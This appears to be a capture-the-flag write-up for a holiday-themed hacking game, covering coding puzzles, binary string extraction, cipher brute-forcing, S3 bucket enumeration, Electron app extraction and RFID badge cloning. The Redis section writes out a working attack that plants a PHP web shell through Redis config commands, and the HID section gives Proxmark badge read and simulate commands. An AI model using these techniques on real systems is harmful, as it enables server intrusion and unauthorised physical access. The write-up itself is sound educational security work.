Info:Program the elf to the end goal in no more than 15 lines of code and no more than 7 elf command/function execution statements in your code.
var arr = elf.get_lever(0)
arr.unshift("munchkins rule")
for (var i = 0; i < 4; i++) {
elf.moveTo(lollipop[i])
}
elf.moveTo(lever[0])
elf.pull_lever(arr)
elf.moveDown(3)
elf.moveLeft(6)
elf.moveUp(2)
Level 7 - Yeeter Swirl [bonus]
About Follow the swirl being careful not to step on any traps (or get yeeted off the map).
Note elf.moveTo(object) has been disabled for this challenge.
Hint Use loops and an incrementing count to take the exact number of steps.
Info:Program the elf to the end goal in no more than 25 lines of code and no more than 10 elf command/function execution statements in your code.
Winning semi-obfuscated 25 lines version:
current_lever = -1
function lever() {
elf.pull_lever(current_lever += 1)
}
for (var i = 0; i < 5; i += 4) {
elf.moveDown(i + 1)
lever()
elf.moveLeft(i + 2)
lever()
elf.moveUp(i + 3)
lever()
elf.moveRight(i + 4)
lever()
}
elf.moveUp(2)
elf.moveLeft(4)
function munch0(arr) {
for (var i = 0, total = 0; i < arr.length; i++)
total += arr[i].filter(item => Number.isInteger(item)).reduce((a, b) => a + b)
return total
}
elf.tell_munch(munch0)
elf.moveUp(2)
Level 8 - For Loop Finale [bonus]
About Follow the zig-zag being careful not to step on any traps (or get yeeted off the map). Note The elf.moveTo(object) function has been disabled for this challenge. Hint Use loops and track incrementing values to take the exact number of steps.
Info:Program the elf to the end goal in no more than 40 lines of code and no more than 10 elf command/function execution statements in your code.

current_lever = 0
lever_sum = 0
function lever() {
lever_sum += elf.get_lever(current_lever)
elf.pull_lever(lever_sum)
current_lever += 1
}
elf.moveRight(1)
lever()
for (var i = 3; i < 12; i += 2) {
elf.moveUp(2)
console.log((i + 1) % 4 == 0)
if ((i + 1) % 4 == 0) {
elf.moveLeft(i) // 3 5 7 9 11
} else {
elf.moveRight(i)
}
console.log(i)
lever()
}
elf.moveUp(2)
function getKeyByValue(object, value) {
return Object.keys(object).find(key => object[key] === value);
}
function munch0(arr) {
for (var i = 0; i < arr.length; i++)
{
res = getKeyByValue(arr[i], "lollipop")
if (typeof res !== "undefined")
return res
}
}
elf.tell_munch(munch0)
elf.moveRight(11)
getKeyByValue is from https://stackoverflow.com/questions/9907419/how-to-get-a-key-in-a-javascript-object-by-its-value
Terminal Speaker UNprep (Bushy Evergreen)
Description:
Help us get into the Speaker Unpreparedness Room!
The door is controlled by ./door, but it needs a password! If you can figure
out the password, it'll open the door right up!
Oh, and if you have extra time, maybe you can turn on the lights with ./lights
activate the vending machines with ./vending-machines? Those are a little
trickier, they have configuration files, but it'd help us a lot!
(You can do one now and come back to do the others later if you want)
We copied edit-able versions of everything into the ./lab/ folder, in case you
want to try EDITING or REMOVING the configuration files to see how the binaries
react.
Note: These don't require low-level reverse engineering, so you can put away IDA
and Ghidra (unless you WANT to use them!)
Hints:
Strings in Binary Files From: Bushy Evergreen The strings command is common in Linux and available in Windows as part of SysInternals.
Letting a Program Decrypt for You From: Bushy Evergreen While you have to use the lights program in /home/elf/ to turn the lights on, you can delete parts in /home/elf/lab/.
Lookup Table From: Bushy Evergreen For polyalphabetic ciphers, if you have control over inputs and visibilty of outputs, lookup tables can save the day.
Bushy Evergreen:
Ohai! Bushy Evergreen, just trying to get this door open. It’s running some Rust code written by Alabaster Snowball. I’m pretty sure the password I need for ./door is right in the executable itself. Isn’t there a way to view the human-readable strings in a binary file?
That’s it! What a great password… Oh, this might be a good time to mention another lock in the castle. Santa asked me to ask you to evaluate the security of our new HID lock. If ever you find yourself in posession of a Proxmark3, click it in your badge to interact with it. It’s a slick device that can read others' badges! Hey, you want to help me figure out the light switch too? Those come in handy sometimes. The password we need is in the lights.conf file, but it seems to be encrypted. There’s another instance of the program and configuration in ~/lab/ you can play around with. What if we set the user name to an encrypted value?
Wow - that worked? I mean, it worked! Hooray for opportunistic decryption, I guess! Oh, did I mention that the Proxmark can simulate badges? Cool, huh? There are lots of references online to help. In fact, there’s a talk going on right now! So hey, if you want, there’s one more challenge. You see, there’s a vending machine in there that the speakers like to use sometimes. Play around with ./vending_machines in the lab folder. You know what might be worth trying? Delete or rename the config file and run it. Then you could set the password yourself to AAAAAAAA or BBBBBBBB. If the encryption is simple code book or rotation ciphers, you’ll be able to roll back the original password.
Door
Testing:
elf@7cf6a39fae81 ~ $ ./door
You look at the screen. It wants a password. You roll your eyes - the password is probably stored right in the binary. There's gotta be a tool for this...
What do you enter? > password
Checking......
Beep boop invalid password
elf@7cf6a39fae81 ~ $ strings door | less
Then look for the string “What do”
What do you enter? >
opendoor
(bytes Overflowextern "
NulErrorBox<Any>thread 'expected, found Door opened!
That would have opened the door!
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
Beep boop invalid password
We’ve got the password now:
elf@7cf6a39fae81 ~ $ ./door
You look at the screen. It wants a password. You roll your eyes - the
password is probably stored right in the binary. There's gotta be a
tool for this...
What do you enter? > Op3nTheD00r
Checking......
Door opened!
Answer: Op3nTheD00r
Lights
Next, the lights ~~
elf@8163dac166e1 ~ $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming you've opened the door; otherwise, you wonder how dark it actually is)
You wonder how to turn the lights on? If only you had some kind of hin---
>>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf
---t to help figure out the password... I guess you'll just have to make do!
The terminal just blinks: Welcome back, elf-technician
What do you enter? > password
Checking......
Beep boop invalid password
Let’s have a look at the config file in the lab directory:
elf@8163dac166e1 ~/lab $ cat lights.conf
password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
name: elf-technician
That’s some encrypted password right there… Following the hint from Bushy, let’s try using the password as username:
elf@8163dac166e1 ~/lab $ cat lights.conf
password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
name: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
elf@8163dac166e1 ~/lab $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)
You wonder how to turn the lights on? If only you had some kind of hin---
>>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lab/lights.conf
---t to help figure out the password... I guess you'll just have to make do!
The terminal just blinks: Welcome back, Computer-TurnLightsOn
What do you enter? > beep
Checking......
Beep boop invalid password
Hey look, it seems the password we gave as username was decrypted! Welcome back, Computer-TurnLightsOn.
Let’s go turn on the lights /o/
elf@8163dac166e1 ~/lab $ ~/lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)
You wonder how to turn the lights on? If only you had some kind of hin---
>>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf
---t to help figure out the password... I guess you'll just have to make do!
The terminal just blinks: Welcome back, elf-technician
What do you enter? > Computer-TurnLightsOn
Checking......
Lights on!
Vending Machines
elf@4c81c53b56ad ~ $ ./vending-machines
The elves are hungry!
If the door's still closed or the lights are still off, you know because
you can hear them complaining about the turned-off vending machines!
You can probably make some friends if you can get them back on...
Loading configuration from: /home/elf/vending-machines.json
I wonder what would happen if it couldn't find its config file? Maybe that's
something you could figure out in the lab...
Welcome, elf-maintenance! It looks like you want to turn the vending machines back on?
Please enter the vending-machine-back-on code > 1234
Checking......
Beep boop invalid password
Okay, let’s have a look at the configuration file with cat lab/vending-machines.json:
{
"name": "elf-maintenance",
"password": "LVEdQPpBwr"
}
Like indicated by the hint, let’s see what happens if we delete the config file:
elf@4c81c53b56ad ~/lab $ mv vending-machines.json vending-machines.orig
elf@4c81c53b56ad ~/lab $ ./vending-machines
The elves are hungry!
If the door's still closed or the lights are still off, you know because you can hear them complaining about the turned-off vending machines! You can probably make some friends if you can get them back on...
Loading configuration from: /home/elf/lab/vending-machines.json
I wonder what would happen if it couldn't find its config file? Maybe that's something you could figure out in the lab...
ALERT! ALERT! Configuration file is missing! New Configuration File Creator Activated!
Please enter the name > elf-maintenance
Please enter the password > 1234
Welcome, elf-maintenance! It looks like you want to turn the vending machines back on?
Please enter the vending-machine-back-on code > 1234
Checking......
That would have enabled the vending machines!
If you have the real password, be sure to run /home/elf/vending-machines
elf@4c81c53b56ad ~/lab $ ls
door lights lights.conf vending-machines vending-machines.orig vending-machines.json
elf@4c81c53b56ad ~/lab $ cat vending-machines.json
{
"name": "elf-maintenance",
"password": "2W1h"
}
We can setup the password and observe how it was encoded! Let’s try a bunch of them to try to understand how the algorithm works:
| iinput | encoded password in the json |
|---|---|
| 1234 | 2W1h |
| 1111 | 2rDO |
| 1114 | 2rDh |
| AAAAAAAAAA | XiGRehmwXi |
| BBBBBBBBBB | DqTpKv7fDq |
| abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | 9UedAffhM83WsX4LYNPCwn2EiaGpUuCOSBa41bdZxdyHV0HpBPKo |
From the results, we can deduce that:
- a character at the same position is always encoded the same way: a ‘1’ as first character will always be encoded as
2 - it’s not a simple substitution cipher as it seems to depends on the position: a
1at index 0 will be encoded as1but a1at position 1 will be encoded asr - the number of characters doesn’t change so the password is 10 characters
Like indicated by the hint, the technique we can try is the following:
- we know the encoded password is
LVEdQPpBwr - delete the config file so that we can setup a new password
a - compare the encoded password generated in the config file to see if the result is
L - if not, repeat the process with the password
buntil we get the first letter of the password
I wrote a semi-automated bruteforce script to do that, it only bruteforce one letter and not the whole password, so you have to run it 10 times and update the input password and the target password with each new found letter:
#!/bin/bash
charset=({a..z} {A..Z} {0..9})
for i in "${charset[@]}"; do
rm -f vending-machines.json
./vending-machines > /dev/null <<EOF
CandyCane$i
CandyCane$i
CandyCane$i
EOF
password=$(cat vending-machines.json | grep password | cut -d'"' -f4)
# target password: LVEdQPpBwr
if [ $password == "LVEdQPpBwr" ] ;
then
echo "####" $i "for password" $password
exit 0
else
echo "trying" $i
fi
done
It’s not fast but you get the flag in the end :‘DDD
elf@713b531bca8d ~ $ ./vending-machines
The elves are hungry!
If the door's still closed or the lights are still off, you know because
you can hear them complaining about the turned-off vending machines!
You can probably make some friends if you can get them back on...
Loading configuration from: /home/elf/vending-machines.json
I wonder what would happen if it couldn't find its config file? Maybe that's
something you could figure out in the lab...
Welcome, elf-maintenance! It looks like you want to turn the vending machines back on?
Please enter the vending-machine-back-on code > CandyCane1
Checking......
Vending machines enabled!!
Answer: CandyCane1
Terminal Redis Bug Hunt (Holly Evergreen)
Description
We need your help!! The server stopped working, all that’s left is the maintenance port. To access it, run: curl http://localhost/maintenance.php We’re pretty sure the bug is in the index page. Can you somehow use the maintenance page to view the source code for the index page?
Hint:
Redis RCE From: Holly Evergreen This is kind of what we’re trying to do…
Solution
Starting from the index page:
player@8e844370649e:~$ curl http://localhost/index.php
Something is wrong with this page! Please use http://localhost/maintenance.php to see if y
ou can figure out what's going onplayer@8e844370649e:~$
Trying the maintenance page:
player@3a7f1f335670:~$ curl http://localhost/maintenance.php
ERROR: 'cmd' argument required (use commas to separate commands); eg:
curl http://localhost/maintenance.php?cmd=help
curl http://localhost/maintenance.php?cmd=mget,example1
player@3a7f1f335670:~$
huh, let’s try help then?
player@3a7f1f335670:~$ curl http://localhost/maintenance.php?cmd=help
Running: redis-cli --raw -a '<password censored>' 'help'
redis-cli 5.0.3
To get help about Redis commands type:
"help @<group>" to get a list of commands in <group>
"help <command>" for help on <command>
"help <tab>" to get a list of possible help topics
"quit" to exit
To set redis-cli preferences:
":set hints" enable online hints
":set nohints" disable online hints
Set your preferences in ~/.redisclirc
Our commands are passed to redis-cli. Interesting. Let’s try other redis command to get more information:
player@8e844370649e:~$ curl http://localhost/maintenance.php?cmd=info
Running: redis-cli --raw -a '<password censored>' 'info'
# Server
redis_version:5.0.3
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:1b271fe49834c463
redis_mode:standalone
os:Linux 4.19.0-13-cloud-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:8.3.0
process_id:6
run_id:ff5156743149ae1be23533352f949293ba79cc13
tcp_port:6379
uptime_in_seconds:8
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:14700728
executable:/usr/bin/redis-server
config_file:/usr/local/etc/redis/redis.conf
# Clients
connected_clients:1
client_recent_max_input_buffer:0
client_recent_max_output_buffer:0
blocked_clients:0
# Memory
used_memory:858912
used_memory_human:838.78K
used_memory_rss:15298560
used_memory_rss_human:14.59M
used_memory_peak:858912
used_memory_peak_human:838.78K
used_memory_peak_perc:107.90%
used_memory_overhead:845542
used_memory_startup:795736
used_memory_dataset:13370
used_memory_dataset_perc:21.16%
allocator_allocated:1185784
allocator_active:1400832
allocator_resident:6008832
total_system_memory:135198154752
total_system_memory_human:125.91G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.18
allocator_frag_bytes:215048
allocator_rss_ratio:4.29
allocator_frag_bytes:215048
allocator_rss_ratio:4.29
allocator_rss_bytes:4608000
rss_overhead_ratio:2.55
rss_overhead_bytes:9289728
mem_fragmentation_ratio:19.22
mem_fragmentation_bytes:14502544
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.1.0
active_defrag_running:0
lazyfree_pending_objects:0
# Persistence
loading:0
rdb_changes_since_last_save:2
rdb_bgsave_in_progress:0
rdb_last_save_time:1608536240
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0
# Stats
total_connections_received:3
total_commands_processed:5
instantaneous_ops_per_sec:0
total_net_input_bytes:235
total_net_output_bytes:25
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0
# Replication
role:master
connected_slaves:0
master_replid:081fbf6764d6fbf682990e18ffff4f42cfcc605b
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0
# CPU
used_cpu_sys:0.009580
used_cpu_user:0.011805
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000
# Cluster
cluster_enabled:0
# Keyspace
db0:keys=2,expires=0,avg_ttl=0
A couple of things to note here:
- the redis version is 5.0.3
- the OS is a Linux 4.19.0-13-cloud-amd64 x86_64
- the config file path is
/usr/local/etc/redis/redis.conf
Huh, interesting, do we have access to any redis config file on our machine?
player@55d31a4728e2:~$ find / -name "redis.conf" 2>/dev/null
/usr/local/etc/redis/redis.conf
/etc/redis/redis.conf
player@55d31a4728e2:~$ cat /usr/local/etc/redis/redis.conf
cat: /usr/local/etc/redis/redis.conf: Permission denied
player@55d31a4728e2:~$ cat /etc/redis/redis.conf |head
bind 127.0.0.1
requirepass "R3disp@ss"
protected-mode no
port 6379
tcp-backlog 511
timeout 0
tcp-keepalive 300
# !
And we have the redis password! We can now use the redis-cli directly instead of the command injection (how to authenticate on redis)! Next, it’s a direct application of the redis webshell. The only unknown being the path to the web folder, after some trial and error, it’s /var/www/html.
player@17eeb6771563:~$ redis-cli
127.0.0.1:6379> AUTH R3disp@ss
OK
127.0.0.1:6379> config set dir /var/www/html/
OK
127.0.0.1:6379> config set dbfilename boom.php
OK
127.0.0.1:6379> set test "<?php system('cat index.php'); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> quit
player@17eeb6771563:~$ curl http://localhost/boom.php -
curl: option -: is unknown
curl: try 'curl --help' or 'curl --manual' for more information
player@17eeb6771563:~$ curl http://localhost/boom.php
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
player@17eeb6771563:~$ curl http://localhost/boom.php --output -
REDIS0009� redis-ver5.0.3�
�edis-bits�@�ctime�f>�_used-mem
aof-preamble���example2#We think there's a bug in index.phptest!<?php
# We found the bug!!
#
# \ /
# .\-/.
# /\ () ()
# \/~---~\.-~^-.
# .-~^-./ | \---.
# { | } \
# .-~\ | /~-.
# / \ A / \
# \/ \/
#
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to se
e if you can figure out what's going on"
?>
example1 The site is in maintenance mode��Z
�\
Arcade Snowball Game (Tangle Coalbox)
Hints:
PRNG Seeding From: Tangle Coalbox While system time is probably most common, developers have the option to seed pseudo-random number generators with other values.
Extra Instances From: Tangle Coalbox Need extra Snowball Game instances? Pop them up in a new tab from https://snowball2.kringlecastle.com.
Mersenne Twister From: Tangle Coalbox Terminal: Snowball Game Python uses the venerable Mersenne Twister algorithm to generate PRNG values after seed. Given enough data, an attacker might predict upcoming values.
Solution
When selecting Impossible, the player name becomes unavailable, but there’s a javascript comment with all the discarded player names:
Copy-paste the seeds in a file, use some vim-fu to keep only the numbers: :%s/ - Not random enough//g. Then feed this list of numbers to this library https://github.com/kmyk/mersenne-twister-predictor and it will predict the next random number for us, ie the one used by the impossible game we just started.
$ cat seeds.txt| mt19937predict > predicted.txt
$ head -n 1 predicted.txt
2222992775
Next, we start another tab on https://snowball2.kringlecastle.com/, start a new game on easy with the player name we just found, and play a game to find out the enemies boats. When a boat is found, we can replicate it in the impossible game without making an error, thus beating the computer.
Objectives
1. Uncover Santa’s Gift List üéÑ
Description:
There is a photo of Santa’s Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.
Hints:
Image Edit Tool From: Jingle Ringford There are tools out there that could help Filter the Distortion that is this Twirl.
Twirl Area From: Jingle Ringford Make sure you Lasso the correct twirly area.
Solution
Ohno, Santa’s gift list is all twirly!

Using an image editor like Gimp, select the twirl with the lasso tool. Some fiddling with the Whirl and pinch settings in the Filters > Distorts menu should produce a kinda readable image:
Not the greatest result, but it’s readable and it says Josh Wright - proxmark. And we have our first answer: proxmark.
2. Investigate S3 Bucket üéÑ
Objective description:
When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.
Hints:
Find Santa’s Package From: Shinny Upatree Find Santa’s
packagefile from the cloud storage provider. Check Josh Wright’s talk for more tips!
Leaky AWS S3 Buckets From: Shinny Upatree It seems like there’s a new story every week about data exposed through unprotected Amazon S3 buckets.
Finding S3 Buckets From: Shinny Upatree Robin Wood wrote up a guide about finding these open S3 buckets.
Bucket_finder.rb From: Shinny Upatree He even wrote a tool to search for unprotected buckets!
Santa’s Wrapper3000 From: Shinny Upatree Santa’s Wrapper3000 is pretty buggy. It uses several compression tools, binary to ASCII conversion, and other tools to wrap packages.
Description:
Can you help me? Santa has been experimenting with new wrapping technology, and we've run into a ribbon-curling nightmare!
We store our essential data assets in the cloud, and what a joy it's been!
Except I don't remember where, and the Wrapper3000 is on the fritz!
Can you find the missing package, and unwrap it all the way?
Hints: Use the file command to identify a file type. You can also examine tool help using the man command. Search all man pages for a string such as a file extension using the apropos command.
To see this help again, run cat /etc/motd.
Solution
We have a wordlist with a few words: kringlecastle, wrapper, santa and a ruby script called bucket finder. Running ./bucket_finder.rb wordlist tests the 3 buckets but returns access denied on all of them.
elf@f29794ffce44:~/bucket_finder$ ./bucket_finder.rb wordlist
http://s3.amazonaws.com/kringlecastle
Bucket found but access denied: kringlecastle
http://s3.amazonaws.com/wrapper
Bucket found but access denied: wrapper
http://s3.amazonaws.com/santa
Bucket santa redirects to: santa.s3.amazonaws.com
http://santa.s3.amazonaws.com/
Bucket found but access denied: santa
But the wordlist doesn’t contain the bucket that interest us, modify the wordlist to contain wrapper3000 :
elf@f29794ffce44:~/bucket_finder$ echo "wrapper3000" > wordlist
and run the script again:
elf@5e5813d4a97c:~/bucket_finder$ ./bucket_finder.rb wordlist
http://s3.amazonaws.com/wrapper3000
Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
<Public> http://s3.amazonaws.com/wrapper3000/package
The wrapper3000 bucket is public! Grab all public files with the download option:
elf@5e5813d4a97c:~/bucket_finder$ ./bucket_finder.rb --download wordlist
http://s3.amazonaws.com/wrapper3000
Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
<Downloaded> http://s3.amazonaws.com/wrapper3000/package
Let the unwrapping on that package file begin!
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package
package: ASCII text, with very long lines
Looks like the package is base64 encoded! The command base64 with the -d option can decode it:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ cat package | base64 -d > package.out
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package.out
package.out: Zip archive data, at least v1.0 to extract
Now we have a zip archive, which we can extract with unzip
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ mv package.out package.zip
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ unzip package.zip
Archive: package.zip
extracting: package.txt.Z.xz.xxd.tar.bz2
That zip contains a… confusing file with lots of extensions! Let’s tackle the last one, the bzip2 archive with the .tar.bz2 extensions.
bzip2 compresses files using the Burrows-Wheeler block sorting text compression algorithm, and Huffman cod‐ ing. Compression is generally considerably better than that achieved by more conventional LZ77/LZ78-based compressors, and approaches the performance of the PPM family of statistical compressors.
~~ man bzip2
The linux archive command tar can automatically decompress and extract bzip2 files:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package.txt.Z.xz.xxd.tar.bz2
package.txt.Z.xz.xxd.tar.bz2: bzip2 compressed data, block size = 900k
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ tar xf package.txt.Z.xz.xxd.tar.bz2
Next we have a hexdump made with the xxd command:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package.txt.Z.xz.xxd
package.txt.Z.xz.xxd: ASCII text
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ head package.txt.Z.xz.xxd
00000000: fd37 7a58 5a00 0004 e6d6 b446 0200 2101 .7zXZ......F..!.
00000010: 1600 0000 742f e5a3 0100 2c1f 9d90 4ede ....t/....,...N.
00000020: c8a1 8306 0494 376c cae8 0041 054d 1910 ......7l...A.M..
00000030: 46e4 bc99 4327 4d19 8a06 d984 19f3 f08d F...C'M.........
00000040: 1b10 45c2 0c44 a300 0000 0000 c929 dad6 ..E..D.......)..
00000050: 64ef da24 0001 452d 1e52 57e8 1fb6 f37d d..$..E-.RW....}
00000060: 0100 0000 0004 595a ......YZ
xxd has a -r option to do the opposite operation and turn the hexdump back into a file:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ xxd -r package.txt.Z.xz.xxd package.txt.Z.xz
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ ls
package package.txt.Z.xz.xxd package.zip
package.txt.Z.xz package.txt.Z.xz.xxd.tar.bz2
Next, we have XZ compressed data, which can be uncompressed in-place with unxz:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package.txt.Z.xz
package.txt.Z.xz: XZ compressed data
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ unxz package.txt.Z.xz
Then something I’ve never seen before, Z file compression:
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ file package.txt.Z
package.txt.Z: compress'd data 16 bits
compress is a Unix shell compression program based on the LZW compression algorithm. […] Files compressed by compress are typically given the extension “.Z” […] Files can be returned to their original state using uncompress.
One more uncompress before package.txt?
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ uncompress package.txt.Z
elf@5e5813d4a97c:~/bucket_finder/wrapper3000$ cat package.txt
North Pole: The Frostiest Place on Earth
Answer: North Pole: The Frostiest Place on Earth
3. Point-of-Sale Password Recovery üéÑ
Description:
Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What’s the password?
Hints:
Electron Applications From: Sugarplum Mary It’s possible to extract the source code from an Electron app.
Electron ASAR Extraction From: Sugarplum Mary There are tools and guides explaining how to extract ASAR from Electron apps.
Solution
So… unfortunately, santa-shop is a Windows executable:
$ file santa-shop.exe
santa-shop.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
Can the asar node module extract directly from the installer?
$ npm install asar
$ asar extract santa-shop.exe src
node:internal/buffer:82
throw new ERR_BUFFER_OUT_OF_BOUNDS();
^
RangeError [ERR_BUFFER_OUT_OF_BOUNDS]: Attempt to access memory outside buffer bounds
at new NodeError (node:internal/errors:278:15)
at boundsError (node:internal/buffer:82:11)
at Buffer.readUInt32LE (node:internal/buffer:218:5)
at Pickle.getPayloadSize
[..]
That probably means no, the .asar file is required, not the .exe installer :( Using a Windows VM, install santa-shop in it.
We need the actual .asar file, not the .exe installer! I guess we have no other choice: let’s spin up a Windows VM and install santa-shop in it. The app will be installed in C:\Users\User\AppData\Local\Programs\santa-shop. More specifically, the app.asar will be in C:\Users\User\AppData\Local\Programs\santa-shop\resources. Grabbing the app.asar back from Linux, we can try the extract step again, this time, without errors:
$ asar extract app.asar src
$ tree src
src
├── img
│ ├── network1.png
│ ├── network2.png
│ ├── network3.png
│ └── network4.png
├── index.html
├── main.js
├── package.json
├── preload.js
├── README.md
├── renderer.js
└── style.css
The README gives us a hint to look at the top of main.js:
$ head main.js
// Modules to control application life and create native browser window
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('path');
const SANTA_PASSWORD = 'santapass';
...
Answer: santapass (note: I know you very much want to input that password directly into Santa PoS, but remember that it’s in the objective menu actually…)
4. Operate the Santavator üéÑüéÑ
Description:
Talk to Pepper Minstix in the entryway to get some hints about the Santavator.
Hint:
From: Pepper Minstix It’s really more art than science. The goal is to put the right colored light into the receivers on the left and top of the panel.
Solution
Solving this one requires to find a bunch of items on the map, as a general rule if something is on the floor, just click on it :D
- the green light-bulb (top left corner of the courtyard) will give access to the talks lobby
- the red light-bulb (talks lobby) and the workshop button for the elevator (in the speaker room after you solve the terminal speaker UNprep) are needed for the workshop and the roof
- the yellow light-bulb is in the netwars room on the roof. Very important detail: you CANNOT find the light-bulb if you’re Santa. (ask me how I know)
Then move all the stuff around so that the 3 light-bulbs are lighted, for example:
Side-note: you can also make objects appear out of thin air by modifying the token list in the URL from the iframe in the source code (try marble2 for example).
https://elevator.kringlecastle.com/?challenge=elevatorr&id=4a5f1e96-ca01-4977-aa6f-e34af43444c3&username=kylma&area=santavator5&location=1,2&tokens=marble,nut2,nut,candycane,ball,elevator-key,greenlight,redlight,workshop-button,yellowlight
5. Open HID Lock üéÑüéÑ
Description:
Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips.
Hints:
What’s a Proxmark? From: Bushy Evergreen The Proxmark is a multi-function RFID device, capable of capturing and replaying RFID events.
Reading Badges with Proxmark From: Bushy Evergreen You can use a Proxmark to capture the facility code and ID value of HID ProxCard badge by running
lf hid readwhen you are close enough to someone with a badge.
Impersonating Badges with Proxmark From: Bush Evergreen You can also use a Proxmark to impersonate a badge to unlock a door, if the badge you impersonate has access.
lf hid sim -r 2006......
Short List of Essential Proxmark Commands From: Bushy Evergreen There’s a short list of essential Proxmark commands also available.
Proxmark Talk From: Bushy Evergreen Larry Pesce knows a thing or two about HID attacks. He’s the author of a course on wireless hacking!
Solution
The proxmark itself can be found in the wrapping room, on the workshop floor. Open the proxmark CLI from your item inventory. The lf hid read command scans for low frequency (125 kHz) HID prox cards. Using this command near Noel Boetie:
[magicdust] pm3 --> lf hid read
#db# TAG ID: 2006e22f08 (6020) - Format Len: 26 bit - FC: 113 - Card: 6020
His badge can now be simulated with the sim subcommand. Example usage from the help:
lf hid sim -w H10301 --fc 118 --cn 1603 -> HID 10301 26 bit
The following informations are required:
- the wiegand format for the
-woption - the facility code for the
--fcoption - the card number for the
--cnoption
The last two options are in the output of lf hid read. For the Wiegand format, there’s only one option with a format length of 26-bit in the output of wiegand list: HID H10301 26-bit.
[magicdust] pm3 --> wiegand list
Name Description
------------------------------------------------------------
H10301 HID H10301 26-bit
Tecom27 Tecom 27-bit
[...]
Putting everything together gives:
lf hid sim -w H10301 --fc 113 --cn 6020
And running it in the proxmark CLI, near the HID lock:
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6020
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit; FC: 113 CN: 6020 parity: valid
[=] Stopping simulation after 10 seconds.
[=] Done
And…. Nothing happens! Probably because it was the wrong elf. Let’s hunt, I mean, look for other elves :‘DD
| Elf | lf hid read results |
|---|---|
| Shiny Upatree | #db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025 |
| Noel Boetie | #db# TAG ID: 2006e22f08 (6020) - Format Len: 26 bit - FC: 113 - Card: 6020 |
AHAH. I found him! It was Shiny Upatree’s badge you need to replay next to the lock!
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6025
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit; FC: 113 CN: 6025 parity: valid
[=] Stopping simulation after 10 seconds.
[=] Done
6. Splunk Challenge üéÑüéÑüéÑ
Description:
